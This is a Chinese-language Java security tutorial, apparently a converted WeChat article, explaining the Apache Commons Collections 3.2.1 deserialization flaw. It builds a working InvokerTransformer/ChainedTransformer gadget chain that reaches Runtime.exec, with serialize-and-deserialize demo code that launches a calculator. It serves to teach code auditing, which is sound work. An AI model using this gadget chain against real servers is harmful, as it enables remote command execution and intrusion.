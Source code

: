 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/VDztKTDNaWoNBsUm9IWn2g)

简述
--

`Apache Commons Collections`是`Apache Commons`的组件，它们是从`Java API`派生而来的，并为 Java 语言提供了组件体系结构。`Commons-Collections`试图通过提供新的接口，实现和实用程序来构建 JDK 类。

`Apache Commons`包应该是 Java 中使用最广发的工具包，很多框架都依赖于这组工具包中的一部分，它提供了我们常用的一些编程需要，但是 JDK 没能提供的机能，最大化的减少重复代码的编写。

2015 年 11 月 6 日 FoxGlove Security 安全团队的`@breenmachine`发布了一篇长博客，阐述了利用 Java 反序列化和`Apache Commons Collections`这一基础类库实现远程命令执行的真实案例，各大 Java Web Server 纷纷躺枪，这个漏洞横扫 WebLogic、WebSphere、JBoss、Jenkins、OpenNMS 的最新版。

要了解这一节课的知识需要提前学习我们第一节课的反射知识 [Java 代码审计系列第一课 反射机制](https://mp.weixin.qq.com/s?__biz=MzI4MTQxMjExMw==&mid=2247484808&idx=1&sn=1db4b68db76bf5ffc6e9afd59e8b9843&scene=21#wechat_redirect)

搭建环境
----

`Apache Commons Collections` 官方在漏洞第一时间就已经修补了漏洞，所以有漏洞的版本是 >=3.2.1 的，配置好 maven，就会自动下载下来。

```
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections --><dependency>    <groupId>commons-collections</groupId>    <artifactId>commons-collections</artifactId>    <version>3.2.1</version></dependency>
```

打开依赖包，看到 `/org/apache/commons/collections/functors/InvokerTransformer.class`

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7grKkYBwuL3zFicevzXviabpnBgMPK80AMh4or91E7ThCgTS6F00S8Aek0GHsWVowgbXVhkaowPwoaA/640?wx_fmt=png)

打开这个文件。

漏洞分析
----

### 漏洞成因

上节课我们说过，java 的反射可以动态的调用类和类里面的方法，用就是类似如下代码

```
Class class1 = Class.forName(req.getParameter("className")); class1.getMethod(req.getParameter("methodName")).invoke(class1.newInstance());
```

而`InvokerTransformer.class` 中的第 54 行的`transform`方法

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7grKkYBwuL3zFicevzXviabpnOesG2wxAT7T9HqOlmpt99g7DmMySlA9HicE2esK9MJfa6xRatKCkoLw/640?wx_fmt=png)

可以看到`transform`方法利用 Java 的反射机制进行任意方法调用。`input`参数是传入的一个实例化对象，反射调用的是其方法。就很直接的调用了 Java 中的反射机制去实例化对象！

```
Class cls = input.getClass(); Method method = cls.getMethod(this.iMethodName, this.iParamTypes); return method.invoke(input, this.iArgs);
```

不过值得注意的是，仅仅是这里是不能够命令执行的，因为 Java 不像 PHP 那样是面向过程的编程，不能直接执行类似`system`, `shell_exec` 之类的函数，Java 是一门面向对象的语言，所谓万物皆对象，没有对象 new 一个。执行操作的时候，需要**对象 -> 方法**，

或者**类 -> 静态方法**， 最常用的就是 `java.lang.Runtime.getRuntime().exec(cmd)`，因此，光凭这个反射还是不能造成命令执行漏洞的，需要调用到`transform` 这个方法，并且将调用的结果作为下一次的输入。

### 找调用链

所以，我们得继续翻这个包，看看有没有满足我们条件的方法。直到找到`/org/apache/commons/collections/functors/ChainedTransformer.class` 这个文件

```
public class ChainedTransformer implements Transformer, Serializable {    private static final long serialVersionUID = 3514945074733160196L;    private final Transformer[] iTransformers;   // .... 其他不重要的代码省略    public Object transform(Object object) {        for(int i = 0; i < this.iTransformers.length; ++i) {            object = this.iTransformers[i].transform(object);        }        return object;    }}
```

可以看到这里的`transform` 实现了`Transformer`这个接口，重写了`transform`方法，并在里面遍历所有重写`Transformer`接口的对象，

调用其的`transform`方法然后返回个`object`, 返回的`object`继续进入循环, 成为下一次调用的参数, 那我们怎么通过这里来执行命令呢？

### 构造 Payload

结合`InvokerTransformer`可以构造出：

```
package com.evalshell.main;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.InvokerTransformer;public class HelloController {    public static void main(String[] args) {        Transformer[] transformers = new Transformer[]{                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})};        Transformer transformerChain = new ChainedTransformer(transformers);        transformerChain.transform(Runtime.getRuntime());     }}
```

[视频详情](javascript:;)

这里的`Runtime.getRuntime()` 会带入到`InvokerTransformer` 中的`transform`, 此时里面 cls 就是`Runtime.getRuntime()`, `cls.getMethod(this.iMethodName, this.iParamTypes);` 所以第一个参数就应当为`getMethod`；而`getMethod`方法的签名为`getMethod(String, Class...)`，我们实际用的时候也只传入了一个 String，所以第二个参数应当写为`new Class[] {String.class, Class[].class}`，第三个参数则为调用`getMethod`时候实际传入的参数，所以应当为`new Object[] {"getRuntime", new Class[0]}`就可以了。这个`this.iMethodName` 就是我们传进去的参数`exec`, 后面就是我们穿的 String 类型的数组`"open -a Calculator"`, 这样一条完整的利用链就完成了。  

但是这里实例化后的对象`Runtime`不允许序列化，所以不能直接传入实例化的对象。所以我们需要在`transforms`中利用`InvokerTransformer`反射回调出`Runtime.getRuntime()`。

```
Transformer[] transformers = new Transformer[] {            //传入Runtime类            new ConstantTransformer(Runtime.class),            //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法            new InvokerTransformer("getMethod",                    new Class[] {String.class, Class[].class },                    new Object[] {"getRuntime", new Class[0] }),            //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象            new InvokerTransformer("invoke",                    new Class[] {Object.class, Object[].class },                    new Object[] {null, new Object[0] }),            //反射调用exec方法            new InvokerTransformer("exec",                    new Class[] {String.class },                    new Object[] {"open -a Calculator"})    };Transformer transformerChain = new ChainedTransformer(transformers);
```

整个调用链是`((Runtime) Runtime.class.getMethod("getRuntime").invoke()).exec("open -a Calculator")`现在反序列化后就可以`obj.transform("随意输入");`这样触发命令执行，但是一般也没有这样的代码，我们还需要继续构造。

### 反序列化利用

到目前为止，我们已经构造出了可以执行命令的恶意 chain，姑且称之为基于 Poc 的验证利用链。现在只要找到一个符合以下条件的类，满足以下条件，并且服务端有反序列化的入口，就可以 RCE 了：

1.  该类重写了`readObject`方法；
    
2.  该类在`readObject`方法中操作了我们序列化后实现了`pocChain`的`TransformedMap`；
    

这样的操作, 我们可以在`/org/apache/commons/collections/functors/ConstantTransformer.class`找到

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7grKkYBwuL3zFicevzXviabpnbMzTXkIEXF5EwCHEdibicDps1JqVOwqD6k6L9sKVtBVBpx3GH1HBVz1g/640?wx_fmt=png)

因为在`ConstantTransformer`中, 调用 transform 方法时不管输入什么都不会影响返回, 所以, 随意输入即可。

那么能否直接这样构造进行序列化呢, 编写代码试试, 编写一个序列化的 demo

```
package com.evalshell.main;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import java.io.*;public class HelloController {    public static void main(String[] args) {        Transformer[] transformers = {                new ConstantTransformer(Runtime.class),                new InvokerTransformer("getMethod", new Class[]{ String.class, Class[].class}, new Object[]{"getRuntime", new Class[0] }),                new InvokerTransformer("invoke", new Class[]{ Object.class, Object[].class}, new Object[]{ null ,new Object[0]} ),                new InvokerTransformer("exec",                        new Class[] {String.class },                        new Object[] {"open -a Calculator"})        };        Transformer transformerChain = new PocTransformer(transformers);             //序列化对象        try{            File f  = new File("f_u_c_k_object");            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(f));            outputStream.writeObject(transformerChain);            outputStream.flush();            outputStream.close();        }catch (IOException exception){            exception.printStackTrace();        }    //反序列化对象        try {            File f = new File("f_u_c_k_object");            ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(f));            Transformer f_u_c_k_object = (Transformer) objectInputStream.readObject();            f_u_c_k_object.transform("fenguxan"); //这里可以填写任意值            System.out.println(f_u_c_k_object.getClass());        }catch (FileNotFoundException exception){            exception.printStackTrace();        }catch (ClassNotFoundException exception){            exception.printStackTrace();        }catch (IOException exception){            exception.printStackTrace();        }    }}class PocTransformer implements Transformer, Serializable{    private final Transformer[] iTransformers;    PocTransformer(Transformer[] iTransformers) {        this.iTransformers = iTransformers;    }    @Override    public Object transform(Object object) {        for(int i = 0; i < this.iTransformers.length; ++i) {            System.out.println(object.getClass());            object = this.iTransformers[i].transform(object);        }        return object;    }}
```

![](https://mmbiz.qpic.cn/mmbiz_png/uqkCa4umw7grKkYBwuL3zFicevzXviabpnJpnA7ZLPv67icUl5pBZjFlgUKWxPwBEu3BXic8yhBHF7n7HyafiaOk5ibw/640?wx_fmt=png)

后续的攻击链就不是我们本节课的重点了，大家可以自己去看下参考链接

参考
--

https://xz.aliyun.com/t/4558#toc-0 https://www.anquanke.com/post/id/82934 https://p0sec.net/index.php/archives/121/ https://security.tencent.com/index.php/blog/msg/97